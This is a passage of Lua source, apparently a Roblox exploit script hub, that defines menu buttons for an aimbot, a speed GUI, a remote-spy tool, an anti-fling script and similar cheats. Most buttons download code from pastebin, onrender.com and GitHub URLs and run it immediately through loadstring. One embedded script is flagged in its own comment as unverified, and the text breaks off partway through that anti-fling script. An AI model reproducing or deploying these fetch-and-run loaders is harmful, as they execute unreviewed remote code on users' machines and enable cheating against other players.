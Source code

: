 Tab1:AddButton({"Music player🔱", function(Value)

print("Hello World!")loadstring(game:HttpGet('https://raw.githubusercontent.com/GhostPlayer352/Test4/refs/heads/main/ScriptAuthorization%20Source'))()Ioad('7208e39603889391caf77f6ff7d21e01')()end})

Tab1:AddButton({"Speed gui🔱", function(Value)

print("Hello World!")loadstring(game:HttpGet("https://protected-roblox-scripts.onrender.com/e31dcfa2d2f980f9e0753520a8671287"))()

end})

Tab1:AddButton({"aimbot script🔱", function(Value)
print("Hello World!")loadstring(game:HttpGet("https://pastebin.com/raw/qtZt0Nzb"))()
end})

Tab1:AddButton({"SIGMA spy🔱", function(Value)
print("Hello World!")loadstring(game:HttpGet("https://raw.githubusercontent.com/depthso/Sigma-Spy/refs/heads/main/Main.lua"))()

end})

Tab1:AddButton({"anti fling🔱", function(Value)
print("Hello World!")--[[
	WARNING: Heads up! This script has not been verified by ScriptBlox. Use at your own risk!
]]
--[[
    Anti-Fling & Anti-Sit Script (One-Time Check)
    ---------------------------------------------
    1. Prevents being flung by moving unanchored parts.
       - Checks all unanchored parts not part of your character.
       - If moving faster than 16 studs/sec (linear) OR spinning faster than 70 rad/sec (rotational), disables collisions.

    2. Disables sitting entirely for your character.
       - Uses Humanoid:SetStateEnabled(Enum.HumanoidStateType.Seated, false)
       - Prevents forced sitting from seats or scripts.

    3. Uses getgenv().AntiFlingRunning to ensure the script only starts once.
    4. Notifies when protection is enabled or already running.
--]]

local StarterGui = game:GetService("StarterGui")

if getgenv().AntiFlingRunning then
    pcall(function()
        StarterGui:SetCore("SendNotification", {
            Title = "Anti-Fling",
            Text = "Script is already running",
            Duration = 3
        })
    end)
    return
end
getgenv().AntiFlingRunning = true

local checkDelay = 0.1 -- more if you're laggy

